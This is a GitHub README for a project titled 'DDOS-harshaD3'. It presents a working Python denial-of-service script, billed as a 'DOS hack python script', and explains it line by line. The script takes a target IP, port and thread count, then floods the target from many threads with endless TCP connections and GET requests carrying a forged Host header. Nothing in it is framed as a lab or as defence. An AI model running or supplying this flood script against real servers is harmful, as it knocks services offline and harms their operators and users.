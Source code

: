 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)

DOS hack python script ...........!

import socket
import threading

-->These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.
for thread in threads:
    thread.join()
    
-->Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.



Importing Libraries:

python
Copy code
import socket
import threading

